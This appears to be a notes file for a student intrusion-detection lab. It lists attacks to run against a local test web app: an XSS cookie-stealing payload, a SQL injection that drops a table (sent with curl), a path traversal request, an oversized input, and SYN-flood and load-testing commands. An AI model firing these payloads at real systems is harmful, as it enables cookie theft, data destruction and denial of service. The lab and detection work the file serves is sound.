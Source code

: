 # NOTES:

- https://research.cec.sc.edu/files/cyberinfra/files/Zeek_Lab_Series.pdf

- Get docker container ip:
  docker ps
  docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' 49b976aca826

- connect to mysql:
  mariadb -h 172.21.0.2 -u ids_project_2024 -p --skip-ssl

- Get docker container cpu usage / io etc:
  docker container stats container_id or docker stats (its an alias)
  docker container top container_id

# NON AUTOMATED TOOLS

1. Cross Site Scripting (XSS)

```html
<img src="" onerror="alert(document.cookie);" />
```

2. SQL Injection

- https://go.dev/doc/database/sql-injection

```go
// Safe:
_, err := db.Exec("INSERT INTO Posts (title, content) VALUES (?, ?)", post.Title, post.Content)
// Unsafe:
payload := fmt.Sprintf("INSERT INTO Posts (title, content) VALUES ('%s', '%s')", post.Title, post.Content)
_, err = db.Exec(payload)
```

> Title: test1
> Content: test2'); DROP TABLE Posts; -- this is a comment and shall be ignored

curl -H 'Content-Type: application/json' -d "{\"title\":\"test1\",\"content\":\"test2'); DROP TABLE Posts; -- this is a comment and shall be ignored\"}" -X POST localhost:1234

3. NGINX Path Traversal Vulnerability

curl http://localhost/api/etc/password

4. curl -H "Content-Type: application/json" -d '{"title":"hello world", "content":"'$(python -c 'print("A"\*5050)' | sed 's/"/\\"/g')'"}' -X POST http://localhost:1234

5. DDoS

> see: ./ddos.sh

# AUTOMATED TOOLS

1. sudo hping3 -i u40 -S -p 1234 -c 1000000 172.21.0.3
2. Apache Bench ab -n 100000 -c 100 http://localhost:1234/
3. https://github.com/hatoo/oha oha -z 2m -c 1000 http://localhost:1234
4. nmap
